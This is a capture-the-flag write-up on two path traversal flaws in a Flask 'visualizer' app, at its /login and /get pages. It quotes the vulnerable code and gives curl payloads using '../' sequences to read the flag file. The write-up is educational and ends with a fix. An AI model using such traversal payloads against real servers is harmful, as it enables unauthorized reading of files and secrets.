 visualizer Writeup
===========

# Abstract
There were two file inclusion vulnerabilities on `/login` and `/get` pages.

I found `/get` page vulnerability first. So I got a flag from server during the CTF.

And I found `/login` page vulnerability while check visualizer code for writeups.

## File inclusion vulnerability on `/login` page
### Describe
There are file inclusion vulnerability on `/login` page when getting github-ID using `get` method. Server attempt to find public key and check that it's a valid public key. If public key is not valid, then server print out the content of the file.
### Source code
```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if flask.request.method == 'POST':
        # ... omitted ...
        data = file_read(keypath)
        pubkey = gpg.import_keys(data)
        if len(pubkey.fingerprints) == 0:
            return flask.Response('%s is not public key\n%s'%(keypath,data)) # file inclusion vulnerability
```

### Payload
`curl http://visualizer.teamx/login?id=../../../../../../../../../../var/ctf/flag`


## File inclusion vulnerability on `/get` page
### Describe
It's a simple page that print out file-content without any name check. Especially there are no login check(`@login_required`) on `/get` page. So I can read the flag without valid user account.
### Source code
```python
@app.route("/get",methods=['GET'])
def static_page():
  if 'page' in flask.request.args:
    page = flask.request.args.get('page')
    path = 'static/' + page
    if os.path.exists(path) and not os.path.isdir(path):
      return file_read(path) # file inclusion vulnerability
```

### Payload
`curl http://visualizer.teamx/get?page=../../../../../../../../../../var/ctf/flag`

# Summary
Check path traversal string(`../`) when getting file name.
